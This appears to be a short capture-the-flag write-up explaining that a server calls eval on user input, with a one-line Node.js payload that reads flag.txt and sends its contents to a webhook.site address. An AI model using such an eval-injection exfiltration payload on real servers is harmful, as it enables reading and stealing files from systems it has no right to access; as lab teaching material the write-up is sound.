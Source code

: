 Server calls eval on the data sent by user.
This can be exploited with for example following payload:

`fs=require('fs');a=fs.readFileSync('flag.txt');http=require('http');http.get("http://webhook.site/<your-id>/"+a.toString());`

Then you would get url encoded flag on your webhook.